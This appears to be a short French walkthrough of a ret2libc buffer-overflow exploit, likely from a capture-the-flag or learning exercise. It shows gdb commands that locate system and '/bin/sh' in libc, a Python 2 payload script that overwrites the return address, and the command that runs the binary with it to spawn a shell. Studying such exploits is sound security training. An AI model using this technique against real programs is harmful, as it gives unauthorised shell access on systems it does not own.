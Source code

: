 # ret2libc

Apres avoir trouver l'`offset` , il faut executer la fonction `systeme` et lui donner comme arguement `/bin/sh`

```sh
(gdb) print system
# $1 = {<text variable, no debug info>} 0xf7c4c870 <system>
```

```sh
(gdb) find /bin/sh
# Searching for '/bin/sh' in: None ranges
# Found 1 results, display max 1 items:
#libc.so.6 : 0xf7db5fc8 ("/bin/sh")
```

Une fois que nous connaissons les addresses memoires de `system` et `/bin/sh` nous pouvons utiliser le script suivant pour l'exploiter

```python
buf = "A" * 54 # Offset
buf +=  "\x70\xc8\xc4\xf7" # system <--- reverse notation
buf += "\x90" * 4 # NOPs
buf += "\xc8\x5f\xdb\xf7" # /bin/sh <-- reverse notation
print buf
```

Executer le programme pour obtenir un shell

```sh
./run $(python2 exploit.py)
```
